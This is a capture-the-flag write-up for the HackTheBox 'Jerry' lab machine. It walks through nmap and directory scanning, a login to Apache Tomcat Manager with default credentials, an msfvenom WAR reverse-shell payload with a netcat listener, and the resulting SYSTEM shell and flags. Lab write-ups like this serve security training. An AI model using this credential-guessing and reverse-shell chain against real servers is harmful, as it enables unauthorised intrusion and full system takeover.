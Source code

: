 Run an `nmap` scan of target

```php
nmap -A -sV -Pn 10.129.136.9

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

Were interested in this Apache server that could be hosting some kind of app
Run a `gobuster` and `ffuf` scan on the target

```php
ffuf -u http://10.129.136.9:8080/FUZZ -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404

gobuster dir -u http://10.129.136.9:8080 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error
```

Our points of interest
`http://10.129.136.9:8080/` - default web page for `Apache Tomcat/7.0.88`
`http://10.129.136.9:8080/docs/` - documentation page for `Apache Tomcat`
`http://10.129.136.9:8080/manager` - this is what we want

We find a login prompt to authenticate, we have no credentials so lets first try some default ones and see what hits.

```php
conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.
```

```php
https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd
tomcat : s3cret
```

Upon logging in we see an admin panel that lists applications running, we have the ability to upload `WAR` files 
Lets use `msfvenom` to create a `WAR` file payload to upload, when triggered it we will set up a `netcat` listener for this reverse shell. The goal is to gain remote command execution. 

```php
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.209 LPORT=443 -f war > revshell.war
```

Uploading it creates a path called `/revshell`

An a separate terminal we setup a listener

```php
sudo nc -nvlp 443
[sudo] password for drew: 
Listening on 0.0.0.0 443
```

We unzip our war file to find a `ddpcwbqmrwlg.jsp`, this is were our payload is located, when we navigate to this web path we trigger the payload

```php
http://10.129.39.5:8080/revshell/ddpcwbqmrwlg.jsp
```

We have gained a reverse shell on the Jerry machine 

```php
Connection received on 10.129.39.5 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We navigate to the Desktop directory through the Administrator user to find the User and Root flags in a file called `2 for the price of 1.txt`

User Flag: `7004dbcef0f854e0fb401875f26ebd00`
Root Flag: `04a8b36e1545a455393d067e772fe90e`

We have rooted this machine.
